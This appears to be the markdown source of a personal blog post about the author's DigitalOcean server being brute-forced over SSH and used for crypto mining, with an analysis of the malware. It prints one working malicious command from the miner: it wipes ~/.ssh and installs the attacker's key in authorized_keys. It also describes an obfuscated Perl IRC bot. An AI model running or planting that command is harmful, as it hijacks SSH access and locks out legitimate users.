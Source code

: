 ```yaml
---
layout: post
title: "Anatomy of a crypto mining hack"
description: "One of my DigitalOcean instances got hacked by a crypto miner. The instance was insignificant but gave me the opportunity to poke around the code."
keywords: "computer hacking, crypto mining hack"
image_url: "/assets/static/images/digitalocean-cpu-alert.png"
category:
tags: ["#code"]
---
```

{% include setup %}
A few months ago I set up a simple ftp server to help a friend. I took a few security shortcuts which came to bite me this week when I received an alert from DigitalOcean that an instance was running hot.

<amp-img src="{{ IMG_PATH }}digitalocean-cpu-alert.png" alt="DigitalOcean CPU Alert" width="503" height="280" layout="responsive"></amp-img>

I dug into it and noticed a series of processes being run by the ftp_user - the most impactful was a command called rsync. I'm familiar with rsync which syncs files across devices - and this was nothing like that. At this point I realized that I got hacked and quickly disabled the user and killed all its processes. The CPU usage dropped back to normal and now it was time to dig into the damage.

Note that I’m far from a security engineer but am reasonably comfortable on the command line. The user was not a sudo account and this was a non critical instance so I wasn't too worried about the impact. In fact, I actually enjoyed the exercise of digging in and trying to see how I was hacked and how the entire script worked.

The origin of the hack was that I was sloppy when I created the ftp account and gave it both a weak password and didn't disable password-based authentication for SSH. This led to the attacker brute forcing the password and getting access to the ftp_user's home folder on the instance. Once there, the attacker downloaded a bunch of code that both embedded itself in the system and then started running a miner.

Before I got rid of the code I took the liberty of committing it to [GitHub](https://github.com/dangoldin/crypto-miner-hack) in order to preserve and share with others. That also gave me the time to dig in and see how it actually worked.

One of the first things I noticed was how obfuscated the code was. The file names and folders were either named after existing programs or were hidden files and directories. In addition, the names were completely nonsensical and intricately linked which made it difficult to trace the execution. I didn't go through the code step by step by digging into the files and found a few interesting tidbits.

One was that the [code created](https://github.com/dangoldin/crypto-miner-hack/blob/69fae2599bff579e7c159c984c6a9e9087b22378/ftp_user/.configrc/b/run#L5) a cron job that would wipe the .ssh folder and then add a single ssh key - thereby locking every other user out.

{% highlight bash %}cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh{% endhighlight %}

Another was that there was a [script to kill](https://github.com/dangoldin/crypto-miner-hack/blob/69fae2599bff579e7c159c984c6a9e9087b22378/ftp_user/.configrc/a/init0) other miners. I assume the motivation here was to realize that if this instance was dumb enough to get hacked then it was probably hacked by someone else already so let's put a stop to that.

The most interesting part was an [encoded string](https://github.com/dangoldin/crypto-miner-hack/blob/69fae2599bff579e7c159c984c6a9e9087b22378/ftp_user/.configrc/b/run#L4) that was passed into the Perl interpreter. The first step decoded it into a highly obfuscated Perl program and the [subsequent step](https://github.com/dangoldin/crypto-miner-hack/blob/master/ftp_user/.configrc/b/run_2_safe_obfuscated) executed it through an eval. The [code itself](https://github.com/dangoldin/crypto-miner-hack/blob/master/ftp_user/.configrc/b/run_3_safe_decoded) is fascinating and those more knowledgeable figured out it was connecting and listening to commands from an IRC server.

There's a fascinating amount of research one can do here to understand everything the hackers managed to do and yet it's a world most of us are only tangentially aware of. There are clear lessons here. One is to take security seriously even if it is a toy project - in this case both a strong password and limiting password-based SSH would have stopped the hack. The other is that even simpler monitoring is a huge help. If DigitalOcean had not sent me the alert my instance would still be mining cryptocoins. And the last one is that running a honeypot is an insightful experience and gives you a chance to learn something new and flex those debugging muscles.
